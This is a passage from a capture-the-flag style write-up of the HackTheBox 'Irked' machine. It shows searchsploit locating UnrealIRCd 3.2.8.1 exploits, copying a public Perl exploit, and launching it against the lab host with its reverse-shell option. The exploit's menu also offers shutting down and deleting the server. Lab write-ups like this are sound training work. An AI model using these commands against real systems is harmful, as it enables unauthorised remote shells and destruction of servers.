 There are no channels listed in the channel list. So I search for an exploit.

# Exploitation

---

I search for an exploit `Unreal 3.2.8.1`:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/irked]
└─$ searchsploit UnrealIRCd    
-------------------------------------------------------------- -------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- -------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)  | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow       | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                     | windows/dos/27407.pl
-------------------------------------------------------------- -------------------------
Shellcodes: No Results

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/irked]
└─$ searchsploit -m linux/remote/13853.pl
  Exploit: UnrealIRCd 3.2.8.1 - Remote Downloader/Execute
      URL: https://www.exploit-db.com/exploits/13853
     Path: /usr/share/exploitdb/exploits/linux/remote/13853.pl
File Type: Perl script text executable

Copied to: /hackthebox/oscp-prep/irked/13853.pl
```

I only looked at the exploits for linux because nmap thinks that the OS is linux. I copied one exploit:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/irked]
└─$ perl 13853.pl   

Usage :
perl unrealpwn.pl <host> <port> <type>

Command list :
[1] - Perl Bindshell
[2] - Perl Reverse Shell
[3] - Perl Bot
-----------------------------
[4] - shutdown ircserver
[5] - delete ircserver
```

I specify the options and use the Reverse shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/irked]
└─$ perl 13853.pl irked.htb 6697 2
[+] Payload sent ...
```

